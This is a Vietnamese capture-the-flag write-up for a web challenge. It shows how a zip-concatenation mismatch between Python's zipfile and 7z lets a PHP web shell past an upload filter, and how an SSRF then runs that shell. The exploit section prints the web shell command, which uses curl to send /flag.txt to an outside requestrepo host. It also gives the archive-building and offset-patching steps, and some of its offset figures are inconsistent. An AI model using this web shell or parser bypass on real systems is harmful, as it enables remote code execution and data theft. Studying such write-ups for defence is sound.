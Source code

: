 

# ⚔️ ZC-1
**Category:** Web
**Difficulty:** _
**Author:** _
**Description**: _
**Resource**: _

![image](https://hackmd.io/_uploads/S1omJ7XAex.png)


# 🛰️Recon
## Tổng quan chung: 
Challenge bao gồm 2 ứng dụng web với:
- app1 là ứng dụng web Python cho phép đăng kí, đăng nhập, và upload file zip, ứng dụng được expose với port 8080
- app2 là ứng dụng web Php phục vụ cho việc giải nén là lưu trữ các file vừa upload, ứng dụng không thể truy cập từ bên ngoài mà chỉ có thể thông qua app1 hoặc từ bên trong

## Chi tiết
### App1
Ứng dụng bao gồm các endpoint sau (bỏ qua một số chi tiết không quan trọng):
- POST `/gateway/user` : cho phép người đăng kí với các trường username, password
- POST `/gateway/transport` : cho phép người dùng đã xác thực upload file zip
    - Endpoint này sử dụng thư viện `zipfile` trong python để thực hiện kiểm tra file extension của các file entry trong file zip được upload dựa trên whilelist trước khi gửi nó đến endpoint `upload.php` của app2
- GET `/gateway/health` : nhận vào param `module` cho phép người dùng kiểm tra hoạt động của các endpoint tại app2
- POST `auth/token` : thực hiện xác thực người dùng với username và password, trả vể session token (sử dụng cho việc xác thực) và refresh token

### App2
Ứng dụng bao gồm các endpoint sau
- POST `upload.php`: cho phép upload file zip (từ app1) và thực hiện giải nén file zip và lưu các file sau khi đã giải nén trong folder `upload/<user_id>`
- `health.php`: một file rỗng chỉ nhằm mục đích kiểm tra kết nối, hoạt động của app2

# 🧪 Dig & Analyze
Dựa trên cấu trúc của challenge, hệ thống cho phép upload file zip sau đó thực hiện giải nén và lưu trữ các file entry trong ứng dụng web Php (thư mục lưu trữ file không có cấu hình để ngăn việc thực thi file .php). Vậy mục tiêu challenge ở đây khả năng cao là upload web shell thông qua việc upload file zip chứa file entry nguy hiểm. 

Dựa trên mục tiêu trên, có 2 vấn đề cần giải quyết:
## 1. Làm thế nào để bypass được file extension check ở app1 -> Zip Concatenation
Trong khi app1 thực hiện kiểm tra file zip upload với thư viện `zipfile` thì app2 lại sử dụng `Archive7z\Archive7z` hay công cụ `7z` để thực hiện giải nén file zip. 

>Bạn có thể chủ động tìm hiểu thêm về cấu trúc file zip để hiểu rõ hơn bài wriuteup, bài wriueup không đi sâu vào phân tích cấu trúc file zip hay giải thích cụ thể về lỗ hổng zip concatenation

Đi vào chi tiết hơn cách mà 2 trình zip parser này hoạt động:

- **Đối với `python zipfile`**, trình đọc zip này không bắt đầu đọc từ đầu tệp mà thay vào đó, nó quét ngược từ cuối file để tìm kiếm lần lượt **End of Central Directory**,  **Central Directory**, **file entry** dựa trên offset.
    ![image](https://hackmd.io/_uploads/rkWyeumCll.png)
- **Đối với `7z`**, định dạng này đặt signature và các header của nó ở đầu tệp. Công cụ 7z bắt đầu phân tích file zip từ đầu tệp (offset = 0)
    ![image](https://hackmd.io/_uploads/SJBGg_QRgl.png)
    
-> Điểm không đồng nhất ở đây cùng với hình ảnh mô tả của challenge gợi cho tôi ý tưởng về việc tận dụng điểm khác biệt của 2 trình zip parser để tạo một file zip hợp lệ với cả 2 trình parser tuy nhiên nội dung đọc được của chúng lại khác nhau bởi cơ chế phân tích của chúng khác nhau.

Tìm hiểu thêm một vài kĩ thuật tấn công liên quan đến định dạng file Zip tôi tìm được kĩ thuật **Zip Concatenation** phù hợp với tình huống lỗ hổng này

## 2. Làm thế nào để có thể thực thi file php nếu đã upload được thành công -> SSRF
Ứng dụng app1 cho phép kiểm tra hoạt động của backend tại endpoint GET `/gateway/health`. Endpoint này nhận vào params `module`, input này được nối chuỗi vào `storage_url` mà không qua kiểm tra sàng lọc dẫn đến có thể khai thác SSRF ở đây để gọi đến file php được upload -> Thực thi thành công file .php
![image](https://hackmd.io/_uploads/HkQzR770lx.png)

# 🔥 Exploit

## Tạo payload
1. Tạo file zip an toàn chứa các file entry phù hợp với whitelist của challenge
```bash
echo helloworld > user.txt
zip user.zip user.txt >/dev/null
```
2. Tạo 7z archive chứa web shell 
```bash
echo '<?php system("curl https://w4zhdt6e.requestrepo.com/ -F \"file=@/flag.txt\"") ?>' > shell.php
7z a -t7z evil.7z shell.php >/dev/null
```
![image](https://hackmd.io/_uploads/B1Fc8jmRxe.png)


File này có kích thước là 207 bytes (0xCF bytes)

3. Chỉnh sửa payload sao cho hợp lệ với zipfile

Chúng ta sẽ thực hiện nối 2 file đơn giản bằng việc sử dụng lệnh cat
```
cat evil.zip user.zip > zipconcat.zip
```

Tuy nhiên file zip này chưa hợp lệ bởi việc thêm trước file zip một file 7z sẽ khiến offset của phần user.zip bị thay đổi, do đó cần thực hiện chỉnh sửa offset sao cho payload này hợp lệ với zipfile


Các 2 vị trí offset cần thay đổi (9D bởi thêm vào trước file này 0x9D bytes) là:
- offset tới Central Directory:
    - nằm trong phần End of Centrol directory
    - có giá trị là 4D 
    - chỉnh sửa thành `11C = 4D + CF`
- offset tới Local file Header 
    - nằm tại offset 42 tình từ đầu mỗi Central Directory
    - có giá trị là 00 
    - chỉnh sửa thành `CF = 00 + CF`

![image](https://hackmd.io/_uploads/ByUSdi7Agl.png)

Trực tiếp thay đổi offset bằng việc sử dụng hex editor

![image](https://hackmd.io/_uploads/SJzXYoXRgx.png)

```bash
cat evil.7z user.zip > zipconcat.zip
```

4. Kiểm tra file với python zipfile
![image](https://hackmd.io/_uploads/Hkxtz5XCle.png)

5. Kiểm tra file zip với 7z
Vì tập lệnh đặt tệp lưu trữ 7z ở ngay đầu tệp được kết hợp, nên các công cụ 7z sẽ coi tệp được kết hợp như một tệp lưu trữ 7z bình thường và trích xuất nội dung 7z (tệp PHP trong ví dụ của bạn) mà không cần động đến các cấu trúc ZIP được thêm vào phía dưới
![image](https://hackmd.io/_uploads/BJcpMcQRxg.png)
Mặc dù có thông báo lỗi bởi 7z phát hiện còn các bytes ở cuối file nhưng payload vẫn được giải nén thành công
![image](https://hackmd.io/_uploads/r18ZQ5X0ee.png)

## Thực hiện tấn công
Tạo tài khoàn người dùng và lấy Authorization token (JWT):

![image](https://hackmd.io/_uploads/rycWGimRlg.png)


![image](https://hackmd.io/_uploads/H1i1zjQRxe.png)


Thực hiện upload file payload vừa tạo với Authorization header chứa token vừa lấy được

![image](https://hackmd.io/_uploads/ryTOMjmAex.png)


Thực hiện SSRF thể thực thi file php đã upload, tuy nhiên cần xác định được vị trí của file trên server

![image](https://hackmd.io/_uploads/Byhx3qmRxl.png)

File sau khi extract được lưu tại thư mục `upload/<user_id>`, chúng ta có thể dễ dàng tìm được user id trong JWT token

![image](https://hackmd.io/_uploads/r1lafjmCee.png)

Thực hiện SSRF

![image](https://hackmd.io/_uploads/SkFocoQRxx.png)

Mặc dù request trả về "ERR" nhưng chúng ta vẫn thành công lấy được flag

![image](https://hackmd.io/_uploads/r1wxjo70el.png)


# 🏆 EXP
-> Zip Concatenation


